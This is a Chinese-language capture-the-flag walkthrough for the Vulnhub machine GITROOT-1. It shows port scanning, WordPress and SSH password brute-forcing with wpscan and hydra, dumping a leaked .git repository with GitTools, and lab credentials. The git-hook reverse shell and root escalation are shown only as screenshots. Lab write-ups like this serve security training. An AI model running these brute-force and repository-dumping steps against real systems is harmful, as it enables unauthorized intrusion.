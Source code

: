 ```yaml
---
layer: article
title: Vulnhub	488 GITROOT-1
tags: pentest vulnhub Walkthrough
---
```

考点：githack,githook

靶机链接：<https://www.vulnhub.com/entry/gitroot-1,488/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| GITROOT-1  | 10.0.2.37 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.37
$ sudo nmap -v -A -p- $rip
PORT      STATE SERVICE   VERSION
22/tcp    open  ssh       OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bf:45:f6:b3:e3:ce:0c:69:18:5a:5b:27:e5:d3:9c:86 (RSA)
|   256 b5:d7:45:50:06:c4:e2:3c:28:52:b8:06:26:1f:de:b0 (ECDSA)
|_  256 27:f0:d0:21:13:30:9c:5e:f0:70:a1:d8:5c:a7:8f:75 (ED25519)
80/tcp    open  http      Apache httpd 2.4.38 ((Debian))
|_http-generator: WordPress 5.0.4
|_http-title: myblog! &#8211; Just another WordPress site
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
11211/tcp open  memcache?
| fingerprint-strings: 
|   RPCCheck: 
|_    Unknown command
```

11211端口 memcache服务 未发现有用信息

### WEB测试

![1](https://static.iihack.com/vulnhub/488/1.jpg)

编辑`/etc/hosts` 添加 

```bash
10.0.2.37       wp.gitroot.vuln gitroot.vuln 
```

#### wp.gitroot.vuln

访问<http://wp.gitroot.vuln>

![2](https://static.iihack.com/vulnhub/488/2.jpg)

##### wpscan

```bash
$ wpscan --url http://wp.gitroot.vuln --api-token ******************************************* -e
```
未发现有用信息

同时开着爆破

```bash
wpscan --url http://wp.gitroot.vuln/ -U beth -P /usr/share/wordlists/rockyou.txt -t 10
```

后面有突破以后也没爆出来密码，就停掉了

#### gobuster

只能看看是否有其他域名

```bash
gobuster vhost -u gitroot.vuln -w /usr/share/dirb/wordlists/big.txt|grep 200
```

![3](https://static.iihack.com/vulnhub/488/3.jpg)

编辑`/etc/hosts` 添加 `repo.gitroot.vuln`

#### repo.gitroot.vuln

![4](https://static.iihack.com/vulnhub/488/4.jpg)

分别访问`get.php` 和`set.php`无有用信息

##### dirsearch

![5](https://static.iihack.com/vulnhub/488/5.jpg)

存在`.git`信息泄露

##### GitTools

```bash
$ git clone https://github.com/internetwache/GitTools
$ ./gitdumper.sh http://repo.gitroot.vuln/.git/  repo.gitroot.vuln

$ ./extractor.sh ../Dumper/repo.gitroot.vuln/ repo.gitroot.vuln
```

查看代码寻找有用信息

![6](https://static.iihack.com/vulnhub/488/6.jpg)

找到用户名`pablo` 密码`ihjedpvqfe` 登录失败

### 暴力破解

爆破`pablo`用户的ssh登录密码

```bash
$ hydra -l pablo   -P /usr/share/wordlists/rockyou.txt -f 10.0.2.37 ssh
```

## 获得权限

### pablo

因为rockyou字典扩增，原本很快可以爆破的密码，现在会时间极长。参考其他报告，这里可获得密码`mastergitar` 

查看文件发现提示

![7](https://static.iihack.com/vulnhub/488/7.jpg)

### beth

#### 思路一

找到目录并开启web服务

![8](https://static.iihack.com/vulnhub/488/8.jpg)

继续上GitTools

```bash
$ ./gitdumper.sh http://10.0.2.37:9000/.git/ auth
$ ./extractor.sh ../Dumper/auth auth

```

到auth目录本地查找有用信息

![9](https://static.iihack.com/vulnhub/488/9.jpg)

#### 思路二

![10](https://static.iihack.com/vulnhub/488/10.jpg)

![11](https://static.iihack.com/vulnhub/488/11.jpg)

获得密码`r3vpdmspqdb` 

查看home目录，获得三个用户名`beth  jen  pablo`，二选一测试，发现用户名`beth`密码`r3vpdmspqdb`

### jen

![12](https://static.iihack.com/vulnhub/488/12.jpg)

查看目录权限

![13](https://static.iihack.com/vulnhub/488/13.jpg)

参考[Pwning git: A Proof of Concept (PoC)](https://www.pentestpartners.com/security-blog/pwning-git-a-proof-of-concept-poc/)

![14](https://static.iihack.com/vulnhub/488/14.jpg)

本地监听444端口，成功接收反弹shell

![15](https://static.iihack.com/vulnhub/488/15.jpg)

![16](https://static.iihack.com/vulnhub/488/16.jpg)

![17](https://static.iihack.com/vulnhub/488/17.jpg)

## 提权

上[GTFOBins ](https://gtfobins.github.io/gtfobins/git/) 看看git

![18](https://static.iihack.com/vulnhub/488/18.jpg)

![19](https://static.iihack.com/vulnhub/488/19.jpg)

成功获得root权限

